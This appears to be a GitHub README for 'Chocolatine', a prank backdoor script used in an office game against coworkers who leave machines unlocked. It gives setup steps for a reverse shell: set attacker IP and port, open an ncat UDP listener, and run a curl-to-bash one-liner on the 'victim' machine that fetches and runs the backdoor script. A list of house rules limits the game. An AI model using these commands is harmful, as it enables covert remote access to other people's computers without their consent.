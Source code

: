 # Chocolatine :bread: :cookie: :doughnut:

## How to configure and use
You have to edit these lines with your IP, PORT and METHOD
```bash
LHOST="192.168.1.19"
LPORT="4242"
LMTHD="--udp"
```
The Attacker needs to open a listening connection with ncat
```bash
Attacker : ncat --udp -lvp 4242
```
Then you only have to run the following command on your victim
```bash
Victim   : curl http://example.com/chocolatine.sh|bash
```

## Rules
 - No lies
 - No backdoor in a git script
 - No network attack (MITM ...)
 - No word macro
 - No keylogger
 - No spoof mail
 - No personal datas, no leak !
 - No Deny of Service (if there is one, you need to pay the croissant)
 - After 7 days of tries, you will remove your backdoor
 - You won't recover any PLAIN passwords    
:warning: If there is a challenge, none of the above applied !


## TODO
 - :x: Debian test
 - :x: Fish Shell (~/.config/fish/config.fish)
 - :x: Alias rewrite

